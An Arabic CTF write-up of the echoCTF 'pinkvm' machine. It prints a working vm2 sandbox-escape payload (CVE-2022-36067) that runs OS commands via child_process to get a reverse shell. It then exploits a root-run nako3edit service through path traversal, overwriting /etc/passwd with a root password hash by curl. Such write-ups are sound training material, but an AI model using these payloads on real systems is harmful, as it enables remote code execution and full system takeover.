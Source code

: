 ```yaml
---
layout: "post"
title: "echoCTF - pinkvm | Sandbox Bypass (CVE-2022-36067)"
date: 2023-03-9T21:44:02+01:00
---
```


> <html><body><b><p style="color:#ffffff;font-size:25px">Introduction:</p></b></body></html>

<div dir="rtl" align="right">
بسم الله الرحمن الرحيم
</div>

<div dir="rtl" align="right">
السلام عليكم ورحمة الله وبركاتة, اليوم راح نشرح حل تحدي Pinkvm المقدم من echoCTF طبعاً التحدي مبني على CVE حديثه الا وهي CVE-2022-36067 الاصابة في مكتبة vm2-sandbox تخطي javascript sandbox  والحصول على RCE وبعد ذلك سوف نشرح طريقة تصعيد الامتياز والحصول على صلاحيات root.
</div>

<img src="/img/FirstBlood.png" alt="centered image" />

> <html><body><b><p style="color:#ffffff;font-size:25px">What is Sandbox:</p></b></body></html>

<div dir="rtl" align="right">
هي بيئة افتراضية نقوم من خلالها بتنفيذ التعليمات البرمجية خارج نطاق الجهاز لتقليل من المخاطر, بكل اختصار هي آلية عزل راح تعزلك كمهاجم من تنفيذ تعليماتك البرمجية الخبيثه على جهاز المضيف وكما هو موضح اعلاه كيف نقدر نتخطى هذا  الشيء ونفذ تعلميات javascript خبيثة والحصول على Reverse Shell.
</div>

> <html><body><b><p style="color:#ffffff;font-size:25px">Enumeration with nmap:</p></b></body></html>

<div dir="rtl" align="right">
راح نستخدم اداة nmap لفحص المنافذ المفتوحة و فحص الخدمات المستخدمة كما هو موضح ادناه
</div>



**`-sV`** لفحص الخدمات المستخدمة **`-p-`** لاستخراج جميع المنافذ المفتوحة

```bash
pegasus@RedEyes:~$ sudo nmap -sV -p- $IP
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-10 18:50 +03
Failed to resolve "nmap".
Nmap scan report for $IP
Host is up (0.097s latency).

PORT     STATE SERVICE VERSION
3000/tcp open  http    Node.js Express framework

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.24 seconds
```
> <html><body><b><p style="color:#ffffff;font-size:25px">Port 3000 - HTTP:</p></b></body></html>

<div dir="rtl" align="right">
راح نلاحظ صندوق إدخال يمكن من خلاله تنفيذ الكود الخاص بنا وادناه يبين لك طريقة عمل الكود
</div>

<img src="/img/3000-http.png" alt="centered image" />

```javascript
module.exports = function() { YOUR_CODE_GOES_HERE }
```

<div dir="rtl" align="right">
بكل اختصار الكود المستخدم يقوم بتصدير اي شيء يتم تعريفة داخل function 
</div>

<div dir="rtl" align="right">
على سبيل المثال لو عطيناه عملية رياضية رايح يتم تصديرها من نفس function وسيتم تنفيذها
</div>

<img src="/img/math.png" alt="centered image" />

<div dir="rtl" align="right">
بعد البحث عن المكتبة المستخدمة الا وهي vm2 سنجد انها مصابة Remote Code Execution
</div>


<div dir="rtl" align="right">
البايلود المستخدم
</div>

```javascript
globalThis.OldError=globalThis.Error;
try{
const a=123
a=44
}catch(err){
  console.log(err)  
}

globalThis.Error={}
globalThis.Error.prepareStackTrace=(errStr,traces)=>{
    traces[0].getThis().process.mainModule.require('child_process').execSync('ENETR OS COMMAND HERE') 
}  
const {stack}=new globalThis.OldError 
```

<div dir="rtl" align="right">
طريقة عمل الكود بكل اختصار اذا حصل خطأ في تعريف متغير a راح يتم تنفيذ child_process ونحصل على Rerverse Shell
</div>

> <html><body><b><p style="color:#ffffff;font-size:25px">Reverse shell:</p></b></body></html>

<div dir="rtl" align="right">
بعد تنفيذ البايلود الخاص بنا راح نحصل على Reverse shell.
</div>

<img src="/img/submit_payload.png" alt="centered image" />

<img src="/img/reverse_shell.png" alt="centered image" />

> <html><body><b><p style="color:#ffffff;font-size:25px">Privilege Escalation:</p></b></body></html>

<div dir="rtl" align="right">
راح نستخدم امر ps -aux لعرض جميع العمليات فالنظام
</div>

```bash
ETSCTF@pinkvm:/app$ ps -aux | grep root
root         1  0.0  0.0   2276   756 pts/0    Ss   08:30   0:00 /sbin/tini -- /entrypoint.sh supervisord -n
root         7  0.0  0.0   3732  2856 pts/0    S+   08:30   0:00 /bin/bash /entrypoint.sh supervisord -n
root        18  0.0  0.5  24328 20412 pts/0    S+   08:30   0:01 /usr/bin/python2 /usr/bin/supervisord -n
root        22  0.0  1.0 11103740 42796 pts/0  Sl   08:30   0:00 node /usr/local/bin/nako3edit
root     13280  0.0  0.0   3732  2748 ?        S    11:25   0:00 /bin/bash /usr/local/sbin/healthcheck.sh
root     13281  0.0  0.1  94884  7900 ?        S    11:25   0:00 curl -s -f http://localhost:3000/
```
<div dir="rtl" align="right">
راح نلاحظ ان الروت يشغل سكربت nako3edit
بعد استعراض السكربت راح نلاحظ انه يشغل منفذ 8888 ويعطينا قيمة appkey في Location header  
</div>

```javascript
#!/usr/bin/env node
/** nako3edit
node
HTTP
) */
import path from 'path'
import fs, { existsSync } from 'fs'
import { execSync } from 'child_process'
import opener from 'opener'
import http from 'http'
// __dirname 
import url from 'url'
const __filename = url.fileURLToPath(import.meta.url)
const __dirname = path.dirname(__filename)
// CONST
const SERVER_PORT = 8888
const rootDir = path.resolve(__dirname)
const releaseDir = path.resolve(path.join(__dirname, '../../release'))
const isWin = process.platform === 'win32'
const homeDir = process.env[isWin ? 'USERPROFILE' : 'HOME']
const userDir = path.join(homeDir, 'nadesiko3_user')
const CNAKO3 = path.resolve(path.join(__dirname, '../../src/cnako3.mjs'))
const NODE = process.argv[0]
const appkey = 'K' + Math.floor(Math.random() * 10000000).toString(16) // <--- appkey
if (!fs.existsSync(userDir)) { fs.mkdirSync(userDir) }
const server = http.createServer(function (req, res) {
  console.log('[
]', JSON.stringify(req.url))
  // root 
 "demo/"
  if (req.url === '/') {
    res.writeHead(302, { 'Location': `/html/files.html?appkey=${appkey}` }) // <---  appkey as a query parameter
    res.end('<a href="/html/files.html">HTML</a>')
    return

```

```bash
ETSCTF@pinkvm:/app$ curl localhost:8888 -i
HTTP/1.1 302 Found
Location: /html/files.html?appkey=K8fc911 <--- appkey
Date: Fri, 10 Mar 2023 12:00:08 GMT
Connection: keep-alive
Keep-Alive: timeout=5
Transfer-Encoding: chunked
```


<div dir="rtl" align="right">
بعد حصولنا على appkey نحلل الكود ونشوف وش الاشياء الي نقدر نسويها 
</div>


```javascript
function apiSave (res, params) {
  res.writeHead(200, { 'Content-Type': 'text/plain; charset=utf-8' })
  const appkeyUser = params.appkey
  if (appkey !== appkeyUser) {
    res.end('[ERROR] キーが違います')
    return
  }
  const fname = params.file
  const body = params.body
  const fullpath = path.join(userDir, fname)
  try {
    fs.writeFileSync(fullpath, body, 'utf-8')
    console.log('[save] file=', fullpath)
    console.log('body=', body)
    console.log('--------------------------------')
    res.end('ok')
  } catch (err) {
    res.end('[ERROR] 保存に失敗しました😭')
  }
}

```

<div dir="rtl" align="right">
جميل لقينا function يسمح لنا بحفظ ملف بمحتويات خاصه بنا ويتطلب 3 متغيرات الا وهي
</div>

- file
- body
- appkey

<div dir="rtl" align="right">
بحكم ان السكربت يعمل بصلاحيات روت راح اعدل على ملف passwd واحط باسورد لروت
</div>

<div dir="rtl" align="right">
راح ننشئ باسورد عن طريق الامر ادناه
</div>

```bash
pegasus@RedEyes:~$ openssl passwd -6 -salt xyz test 
$6$xyz$rjarwc/BNZWcH6B31aAXWo1942.i7rCX5AT/oxALL5gCznYVGKh6nycQVZiHDVbnbu0BsQyPfBgqYveKcCgOE0
```

<div dir="rtl" align="right">
نقوم الان بارسال الطلب
</div>

```bash
ETSCTF@pinkvm:/app$ curl 'http://localhost:8888/save?file=../../etc/passwd&body=root:$6$xyz$rjarwc/BNZWcH6B31aAXWo1942.i7rCX5AT/oxALL5gCznYVGKh6nycQVZiHDVbnbu0BsQyPfBgqYveKcCgOE0:0:0:root:/root:/bin/bash&appkey=K8fc911'
```

<img src="/img/user_root.png" alt="centered image" />

<div dir="rtl" align="right">
وبكذا حصلنا على روت
</div>

> <html><body><b><p style="color:#ffffff;font-size:25px">References:</p></b></body></html>

- https://www.oxeye.io/blog/vm2-sandbreak-vulnerability-cve-2022-36067
- https://github.com/Prathamrajgor/Exploit-For-CVE-2022-36067
- https://security.snyk.io/vuln/SNYK-JS-VM2-3018201
- https://unix.stackexchange.com/questions/81240/manually-generate-password-for-etc-shadow

> <html><body><b><p style="color:#ffffff;font-size:25px">Author:</p></b></body></html>

**Twitter** :

```
https://twitter.com/57h
```
